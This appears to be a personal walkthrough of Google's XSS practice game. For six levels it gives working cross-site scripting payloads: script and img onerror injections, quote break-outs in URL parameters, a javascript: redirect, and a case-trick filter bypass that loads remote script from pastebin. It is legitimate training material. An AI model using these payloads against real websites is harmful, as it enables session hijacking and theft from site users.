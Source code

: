 ## Cross-site scripting (XSS)Cross-site scripting (XSS)

*https://xss-game.appspot.com/*

This is a note of practicing the xxs 

## Level 1
This is the most obvious and easiest one. Just insert following code and you're done:
```
<script>alert(1)</script>
```

## Level 2
Since the script won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use img tags along with the onerror attributes. Here you go:
```
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
```
## Level 3
Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see index.html:

```
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
```
As you see the num parameter is used to generate the img tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the onerror attribute to insert JS. Insert this into the URL address bar and you'll get your alert():
```
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
"Image " + parseInt(num) = Image + 3' onerror='alert(1)';
```
## Level 4
This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting https://xss-game.appspot.com/level4/frame?timer=' showed me following output:

SyntaxError: unterminated string literal
```
startTimer(''');
Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

https://xss-game.appspot.com/level4/frame?timer=');
```
```
   SyntaxError: unterminated string literal

    startTimer('')');
```
https://xss-game.appspot.com/level4/frame?timer=');
```
      SyntaxError: unterminated string literal


    startTimer('')');
 ```
And then I've decided to use some URL encoding: %3B represents the semi-colon.

https://xss-game.appspot.com/level4/frame?timer=')%3B
```
      SyntaxError: unterminated string literal


    startTimer('');');
```
Aha.. There you go! We can terminate the call and insert other ones. The final request:

https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in

startTimer('');alert(1);var b=('');
I must admit: Nice one!

## Level 5
This one was quite easy. On the first page you can see a link: https://xss-game.appspot.com/level5/frame/signup?next=confirm. Now let's have a look how this next parameter is used in confirm.html:

```
      <script>
            setTimeout(function() { window.location = '{{ next }}'; }, 5000);
      </script>
```
So the window.location is set based on the next parameter. This is a typical case for DOM based XSS. Besides that we have in signup.html:

```
      <br><br>
          <a href="{{ next }}">Next >></a>
      </body>
```
Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

Insert your Mail

Click Next >>

Voila!
## Level 6
This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```
Afterwards the text after the hash is used as the scripts src:
```
      // Load this awesome gadget

      scriptEl.src = url;
```
Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the final PoC:

https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/
